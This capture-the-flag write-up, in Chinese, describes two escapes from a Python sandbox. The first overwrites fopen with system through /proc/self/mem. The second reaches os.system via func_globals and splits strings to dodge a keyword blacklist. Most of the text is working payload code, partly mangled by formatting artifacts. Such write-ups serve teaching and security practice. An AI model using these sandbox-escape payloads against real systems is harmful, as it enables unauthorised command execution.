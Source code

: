 
# Run1

## 方法一
* [Principle]
> python sandbox
  
* [Purpose]
> python 沙箱逃逸,通过基类中的file,抓取python的elf文件,通过/proc修改GOT表,劫持file-->system 从而 getshell
  
* [Environment]
。 Ubuntu
  
* [Tools]
> nc
  
* [Process]
1. Step 1
> 上来一通fuzz之后,发现七七八八的全部被ban,而通过()基类中的file 可以进行文件读取
  
2. Step 2
``` 
  linux proc文件系统(http://www.tldp.org/LDP/Linux-Filesystem- Hierarchy/html/proc.html)
  
  通过('/usr/bin/python','r').read()把python进程dump下来
  
  sh echo "print ().__class__.__bases__[0].__subclasses__()[40]('/usr/bin/python','r').read()"|nc 127.0.0.1 9999 > python

```
3. Step 3
``` 
    修复下dump下来的elf文件,objdump分析下
  
    sh ✘ xu@ubuntu  ~/tmp/example/source  objdump -R pyhton|grep -E "system|fopen" 00000000008de2b8 R_X86_64_JUMP_SLOT system@GLIBC_2.2.5 00000000008de8c8 R_X86_64_JUMP_SLOT fopen64@GLIBC_2.2.5
  
```
4. Step 4
  读取system地址将其写入fopen中,调用fopen即可getshell,还有cat and ls的命令绕过
  ``` 

> > > (lambda r,w:r.seek(0x08de2b8) or w.seek(0x08de8c8) or w.write(r.read(8))
or (). **class**. **bases** [0]. **subclasses** ()[40]( "l'+'s"))(().
**class**. **bases** [0]. **subclasses** ()[40]( "/proc/self/mem','r"),().
**class**. **bases** [0]. **subclasses** ()[40]( "/proc/self/mem', 'w', 0\)\)

5c72a1d444cf3121a5d25f2db4147ebb

bin

cpython.py

cpython.pyc

sandbox.py

\(lambda r,w:r.seek\(0x08de2b8\) or w.seek\(0x08de8c8\) or
w.write\(r.read\(8\)\) or
\(\).__class__.__bases__\[0\].__subclasses__\(\)\[40\]\('c'+'at
5c72a1d444cf3121a5d25f2db4147ebb"))((). **class**. **bases** [0].
**subclasses** ()[40]( "/proc/self/mem','r"),(). **class**. **bases** [0].
**subclasses** ()[40]('/proc/self/mem', 'w', 0))
flag{eee93c33d97aa55f785a7d10ba4ae3ce} unknow error,try again :> ```

## **[Summary]**  
```

## 方法二

* 最终payload为
``` 
print ().__class__.__bases__[0].__subclasses__()[59].__init__.__getattribute__('func_global'+'s')['linecache'].__dict__['o'+'s'].__dict__['sy'+'stem']('ca'+'t'+' /home/ctf/5c72a1d444cf3121a5d25f2db4147ebb')
```
![..](img/Run1/a.png)

``` 
这里主要是调用魔法函数__dict__使得os和system能绕过黑名单，再调用魔方函数__getattribute__来传入对象的方法func_globals，也是能传入字符串，从而能通过拆解字符串来绕过黑名单ls，最后达到命令执行的效果

```
